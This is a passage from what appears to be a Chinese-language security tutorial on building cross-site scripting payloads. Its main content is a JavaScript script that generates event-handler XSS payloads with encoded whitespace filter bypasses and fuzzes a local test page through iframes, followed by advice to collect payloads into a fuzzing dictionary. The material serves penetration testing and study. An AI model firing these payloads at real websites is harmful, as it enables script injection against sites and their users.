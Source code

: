 #### 构造 payload

- - -

有了上面的准备，我们可以构造出大量 xss\_payload。  
[![](assets/1698897346-02171f228268b71d4848d1c5c185e55f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7df5824c-0da1-1.png)

也可以利用 key 师傅这个 js 脚本，优点很明显能直接弹框的，脚本自己修改下就行。

```plain
var i,j,k,xss,f=0;
var ons = ["onload","onerror"];
var labs = ["a","b","q","br","dd","dl","dt","h1","del","abbr","video","base","audio","details"];
var hexs= ["%09","%00","%0d","%0a"];
for(i=0;i<labs.length;i++){
    for(j=0;j<hexs.length;j++){
        for(k=0;k<ons.length;k++){
            xss = f+'<'+labs[i]+hexs[j]+ons[k]+"=alert("+f+") src=a>a";
            var body = document.getElementsByTagName("body");
            var div = document.createElement("div");
            div.innerHTML = f+"<iframe src=\"http://127.0.0.1/index.php?fuzz="+xss+"\"></iframe>";
            document.body.appendChild(div);
            f = f+1;
        }
    }
}
```

其他脚本可以去 Github 寻找，这样收集构造出属于自己的 xss\_payload.txt 测试时直接 fuzz 看结果，再根据结果进一步 fuzz。

## 后记

- - -

大家平时可以去推特逛逛，HackerOne 精彩 xss 文章等，收集扩展逐步完善自己的字典。
